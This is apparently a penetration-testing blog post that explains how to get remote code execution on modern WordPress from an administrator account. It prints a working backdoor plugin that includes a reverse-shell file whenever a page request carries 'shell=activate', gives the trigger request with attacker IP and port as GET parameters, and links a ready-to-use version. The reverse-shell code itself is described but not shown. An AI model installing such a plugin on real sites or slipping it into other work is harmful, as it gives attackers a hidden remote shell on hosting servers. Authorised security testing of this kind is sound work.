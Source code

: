 +++
title = "Modern WordPress RCE as Administrator"
description = "Explains how to gain Remote Code Execution (RCE) on modern WordPress instances using administrator privileges by creating and installing a custom plugin that triggers a reverse shell. Also offers a ready-to-use plug-and-play plugin if you don't want to create one from scratch."
tldr = "Got WordPress admin? Use [this](https://github.com/davidxbors/wordpress-rce-plugin) simple plugin with a reverse shell triggerable via GET parameters (/?shell=activate&ip=<IP>&port=<PORT>) to get RCE, as old methods might fail."
date = 2025-04-27
draft = false
+++

## Got Administrator... now what?

Let's say you are in the middle of an assessment and just got credentials as an administrator user on a WordPress instance.
Or got administrative access to the instance via a vulnerability.
What's the next step?

Of course, you now have complete control of the instance and can change anything regarding the website.
While having huge impact, this doesn't allow pivoting.
Also, in the case of the WordPress instance being an old unused website (which it might be if it has weak creds or vulns) the impact might not be that big for the customer.
The good news? Having admin access to a WordPress instance is your golden ticket to getting a shell on the hosting server.

## How to pop a shell?

![i can haz shellz?](/posts/imgs/9s3nbd.jpg)

The classic ways of getting a shell, documented on [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/WordPress.html?highlight=WordPress#panel-rce) as well, involve either:

1. Changing a theme by adding custom webshell code to an arbitrary page;
1. Uploading a webshell as a plugin. The install will fail, but the webshell will be available in the media section.

However, with modern versions of WordPress the two well known staple methods don't work as expected anymore.
Installing a plugin now requires to upload a zip, and in case of install failure WordPress will simply save the zip archive in the media section.
Themes allow you to add custom code to them, but (at least in my case) it is not possible to execute a webshell via this method anymore.

**The solution?**

We can still get remote code exection if we have the rights to install a plugin.
However, we need to actually install a valid plugin.

## The contents of a valid WordPress plugin

The structure of a WordPress plugin zip archive is trivial.
It simply stores directly all the files required by the plugin.
For example, it can be as simple as:

```console
my_plugin.zip
|--- plugin.php
```

In the same time, it can also have more complex structures, use your imagination.

However, there is a very important thing to mention here!
The main file of the plugin, should have the following structure.

```php
<?php
/*
Plugin Name: Demo Shell Plugin
Description: A plugin that establishes a reverse shell.
Version: 1.0
Author: David Bors 
*/
// the actual code of this file goes here
```

If no file has such a comment, WordPress will fail to install the plugin.

## Enough talking, let's write the shell

The code I use, can also be found on my github, [here](https://github.com/davidxbors/wordpress-rce-plugin).

But, let's take a look at it.

```php
<?php
/*
Plugin Name: Demo Shell Plugin
Description: A plugin that establishes a reverse shell.
Version: 1.0
Author: David Bors 
*/
// Trigger shell.php when a specific query parameter is present
function trigger_shell() {
    if (isset($_GET['shell']) && $_GET['shell'] === 'activate') {
        include_once plugin_dir_path(__FILE__) . 'shell.php';
        exit; // Prevent WordPress from rendering further
    }
}
add_action('init', 'trigger_shell');
```

This is the entrypoint of the plugin.
It defines a simple `trigger_shell` function, which, if a `GET` requests has the following `shell` parameter with the `activate` value, will execute the code from an additional `shell.php` file.

`add_action` defines an action for the plugin.
The `init` action is an early phase when WordPress is setting up but before output is sent to the browser.
This ensures our function will be executed at every rendering of any page on the WordPress instance.

So, to recap, each time a page is rendered by WordPress, this plugin checks if the `shell=activate` parameter / value pair is present.
If it is, it runs the malicious code present in `shell.php`.

`shell.php` has a generic reverse shell, taken from [revshells.com](https://www.revshells.com/).
I changed that shell so the IP and port used for the reverse shell is also taken from `GET` parameters, so one can use this plugin in a plug and play manner.

In the end, a request that will trigger the shell and start a reverse shell to one's machine should look like this:

```console
GET /?shell=activate&ip=<IP>&port=<PORT>
```

Thanks for reading all this, and I hope this ready to use, plug and play plugin will help you!
